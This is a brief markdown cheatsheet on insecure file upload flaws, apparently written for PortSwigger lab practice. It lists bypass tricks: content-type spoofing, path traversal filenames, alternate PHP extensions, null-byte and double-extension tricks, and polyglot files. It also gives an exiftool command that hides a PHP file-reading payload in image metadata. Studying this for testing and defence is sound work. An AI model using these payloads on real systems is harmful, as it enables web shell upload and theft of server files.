 ```yaml
---
title: Insecure file upload
description: Insecure file upload cheatsheet
---
```


# Insecure File upload

## Definition

**Insecure file upload** refers to a vulnerability in a computer system that allows unauthorized users to upload files to the system. This can be a serious security risk because it can allow attackers to upload malicious files, such as viruses or malware, that can compromise the security of the system. To prevent insecure file uploads, it is important to implement appropriate security measures, such as file type restrictions and authentication checks, to ensure that only authorized users are able to upload files.

## Cheathsheet

- Upload basic php file
- Change PHP content type to `Content-Type: image/jpeg`
- Path traversal in filename `../read_carlos_secret.php` or `..%2Fread_carlos_secret.php`
- Bypass PHP file extension filter `php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, ...`
- Other bypass `.pHp, .png.php`, `.php%00.png`, ...
- Add PHP in image metadata : `exiftool -Comment='<?php echo "AAAA-"; echo file_get_contents("/home/carlos/secret"); echo "-BBBB"; ?>' toto.png.php`
- Uploading files using PUT
- Polyglot file [PHAR/JPEG generator](https://gitlab.com/xanhacks/phar-jpg-polyglot/)

## References

- [PortSwigger - File upload](https://portswigger.net/web-security/file-upload)